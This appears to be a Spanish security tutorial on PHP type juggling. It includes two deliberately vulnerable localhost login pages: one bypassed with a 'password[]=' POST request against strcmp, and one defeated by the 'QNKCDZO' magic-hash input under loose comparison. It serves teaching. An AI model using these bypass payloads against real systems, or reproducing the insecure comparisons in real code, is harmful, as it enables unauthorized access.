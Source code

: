 # Type Juggling Attack

Un ataque de **Type Juggling** (o “**cambio de tipo**” en español) es una técnica utilizada en programación para **manipular** el **tipo de dato** de una variable con el fin de engañar a un programa y hacer que éste haga algo que no debería.

La mayoría de los lenguajes de programación utilizan tipos de datos para clasificar la información almacenada en una variable, como enteros, cadenas, flotantes, booleanos, etc. Los programas utilizan estos tipos de datos para realizar operaciones matemáticas, comparaciones y otras tareas específicas. Sin embargo, los atacantes pueden explotar vulnerabilidades en los programas que no validan adecuadamente los tipos de datos que se les proporcionan.

En un ataque de Type Juggling, un atacante manipula los datos de entrada del programa para cambiar el tipo de dato de una variable. Por ejemplo, el atacante podría proporcionar una cadena de caracteres que “se parece” a un número entero, pero que en realidad no lo es. Si el programa no valida adecuadamente el tipo de dato de la variable, podría intentar realizar operaciones matemáticas en esa variable y obtener resultados inesperados.

Un ejemplo común de cómo se puede utilizar un ataque de Type Juggling para burlar la autenticación es en un sistema que utiliza comparaciones de cadena para verificar las contraseñas de los usuarios. En lugar de proporcionar una contraseña válida, el atacante podría proporcionar una cadena que se parece a una contraseña válida, pero que en realidad no lo es.

Por ejemplo, en PHP, una cadena que comienza con un número se convierte automáticamente en un número si se utiliza en una comparación numérica. Por lo tanto, si el atacante proporciona una cadena que comienza con el número **cero** (**0**), como “**00123**“, el programa la convertirá en el número entero **123**.

Aquí se puede ver un ejemplo:\


<figure><img src="../../.gitbook/assets/ejemplo.png" alt=""><figcaption></figcaption></figure>

Si la contraseña almacenada en el sistema también se almacena como un número entero (en lugar de como una cadena), la comparación de la contraseña del atacante con la contraseña almacenada podría ser exitosa, lo que permitiría al atacante eludir la autenticación y obtener acceso no autorizado al sistema.

### Prueba de concepto

* Iniciar **servicio** de apache2:

```bash
❯ cd /var/www/html
❯ service apache2 start
```

* Crear archivo php que contenga un panel de login básico:

```php
<html>
	<font color="red"<center><h1>Secure Login Page</h1></center></font>
	<hr>
	<body style="background-color:powderblue">
		<center>
			<form method="POST" name"<?php basename($_SERVER['PHP_SELF']); ?>"></center>
				Usuario: <input type="text" name="usuario" id="usuario" size="30"></input>
				&nbsp;
				Password: <input type="password" name="password" id="password" size="30"></input>
				<input type="submit" value="Login"></input>
				<hr>
			</form>
		</center>

		<?php
			$USER = "admin";
			$PASSWORD = "contraseña";
			if(isset($_POST['usuario']) && isset($_POST['password'])){
				if($_POST['usuario'] == $USER){
					if(strcmp($_POST['password'], $PASSWORD) == 0){
						echo "[+] Acesso permitido";
					} else {
						echo "[!] Acesso denegado, la contraseña es incorrecta.";
					}
				} else {
					echo "[!] Acesso denegado, el usuario es incorrecto.";
				}
			}
		?>

	</body>
</html>
```

* Y enviando la peticion por POST cambiando en el campo password el tipo de dato a un **array\[]** podemos llegar a burlar el panel:

```
POST /index.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://localhost
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

usuario=admin&password[]=
```

* Otro ejemplo seria a partir del hash pongamos una contraseña que de 0:

```php
<html>
	<font color="red"<center><h1>Secure Login Page</h1></center></font>
	<hr>
	<body style="background-color:powderblue">
		<center>
			<form method="POST" name"<?php basename($_SERVER['PHP_SELF']); ?>"></center>
				Usuario: <input type="text" name="usuario" id="usuario" size="30"></input>
				&nbsp;
				Password: <input type="password" name="password" id="password" size="30"></input>
				<input type="submit" value="Login"></input>
				<hr>
			</form>
		</center>

		<?php
			$USER = "admin";
			$PASSWORD = 0e111111451993494058024219903391;
			if(!empty($_POST['usuario']) && !empty($_POST['password'])){
				$password_input = $_POST['password'];
				$password_input = md5($password_input);
				if($_POST['usuario'] == $USER){
					if($password_input == $PASSWORD){
						echo "[+] Acesso permitido";
					} else {
						echo "[!] Acesso denegado, la contraseña es incorrecta.";
					}
				} else {
					echo "[!] Acesso denegado, el usuario es incorrecto.";
				}
			}
		?>
	</body>
</html>
```

0e111111451993494058024219903391 == 0\
QNKCDZO == 0

0e111111451993494058024219903391 == QNKCDZO **➜** 0

